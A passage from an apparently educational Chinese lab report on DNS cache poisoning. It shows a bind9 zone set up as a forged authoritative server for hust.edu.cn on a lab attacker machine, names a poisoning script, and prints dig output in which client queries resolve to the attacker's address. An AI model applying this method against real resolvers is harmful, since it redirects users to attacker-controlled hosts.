 ### 1.5.4 建立伪造的权威域名服务器

- 为了最终完成攻击，在攻击机`172.18.0.1`上运行伪造的权威域名服务器`ns1.hust.edu.cn`，因此为攻击机上的`bind9`添加相应的域（参考`0.4 在本地DNS服务器中建一个区域`），将以下内容添加到攻击机的`/etc/bind/named.conf.default-zones`中：

```
zone "hust.edu.cn" { 
	type master; 
	file "/etc/bind/hust.edu.cn.db"; 
};
```

- 正向查找文件见`hust.edu.cn.db`，将其放置在`/etc/bind`，并配置响应读权限，此处不再赘述。

### 1.5.5 完整的攻击

- 建立以上伪造的权威域名服务器后，重启攻击机的`bind9`服务。
- 在攻击机使用程序`local_dns_poisoning_attack_auth.py`进行攻击，客户机先`dig www.hust.edu.cn`，然后`dig mail.hust.edu.cn`，再`dig cse.hust.edu.cn`，结果如下所示，可见可以对该域中的所有域名实现欺骗：

```shell
root@DNS_User:/# dig www.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 26837
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;www.hust.edu.cn.		IN	A

;; ANSWER SECTION:
www.hust.edu.cn.	11803	IN	A	172.18.0.1

;; AUTHORITY SECTION:
hust.edu.cn.		11803	IN	NS	ns1.hust.edu.cn.
hust.edu.cn.		11803	IN	NS	ns2.hust.edu.cn.

;; Query time: 61 msec
;; SERVER: 172.18.0.3#53(172.18.0.3)
;; WHEN: Sun May 01 20:34:58 CST 2022
;; MSG SIZE  rcvd: 96

root@DNS_User:/# dig mail.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> mail.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 34959
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;mail.hust.edu.cn.		IN	A

;; ANSWER SECTION:
mail.hust.edu.cn.	259200	IN	A	192.168.0.102

;; AUTHORITY SECTION:
hust.edu.cn.		11788	IN	NS	ns2.hust.edu.cn.
hust.edu.cn.		11788	IN	NS	ns1.hust.edu.cn.
```